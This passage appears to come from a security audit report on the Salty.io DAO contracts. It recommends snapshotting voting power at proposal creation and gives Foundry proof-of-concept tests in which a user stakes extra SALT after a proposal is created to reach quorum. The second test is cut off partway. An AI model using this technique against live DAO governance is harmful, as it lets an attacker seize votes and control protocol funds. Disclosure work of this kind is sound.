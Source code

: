## Recommended Mitigation Steps
It is not sufficient to only save the snapshot by storing the `requiredQuorum` on [L110](https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L110) at proposal creation time. The protocol needs to also save the voting power of the users at that timestamp. Any SALT staked later on can not be included in voting power.

## Proof of Concept
Add these 2 tests inside `src/dao/tests/DAO.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_t0x1c_` to see both the tests pass:
```js
  function test_t0x1c_stakingAfterProposalCreation() public {
    deal(address(salt), address(DEPLOYER), 6_000_000 ether);
    vm.prank(DEPLOYER);
    staking.stakeSALT(6_000_000 ether);

    // Set up the parameters for the proposal
    uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
    uint256 ballotID = 1;
    deal(address(salt), address(alice), 630_000 ether);

    // Alice stakes her SALT to get voting power
    uint256 aliceStakedAmount_1 = 60_000 ether;
    uint256 aliceStakedAmount_2 = 570_000 ether;

    vm.startPrank(alice);
    staking.stakeSALT(aliceStakedAmount_1);

    // Propose a parameter ballot
    proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
    emit log_named_decimal_uint("requiredQuorumForBallotType =", proposals.requiredQuorumForBallotType(BallotType.PARAMETER), 18);

    // stakes again with a much larger amount, now that the proposal has been floated
    staking.stakeSALT(aliceStakedAmount_2);

    skip(14 days);

    // Alice casts a vote, enough for quorum
    proposals.castVote(ballotID, Vote.INCREASE);

    // OPTIONAL STEP -- Alice unstakes her SALT
    // staking.unstake(aliceStakedAmount_1 + aliceStakedAmount_2, 52);
    vm.stopPrank();

    emit log_named_decimal_uint("votes cast in favour =", proposals.votesCastForBallot(ballotID, Vote.INCREASE), 18);

    // Now it should be possible to finalize the ballot
    dao.finalizeBallot(ballotID);
    // Check that the ballot is finalized
    bool isBallotFinalized = !proposals.ballotForID(ballotID).ballotIsLive;
    assertTrue(isBallotFinalized);
  }



	function test_t0x1c_cancelUnstakeToManipulateVotingPower() public {
		deal(address(salt), address(DEPLOYER), 6_000_000 ether);
		vm.prank(DEPLOYER);
		staking.stakeSALT(6_000_000 ether);
		uint256 aliceStakedAmount = 630_000 ether;
		deal(address(salt), address(alice), aliceStakedAmount);
```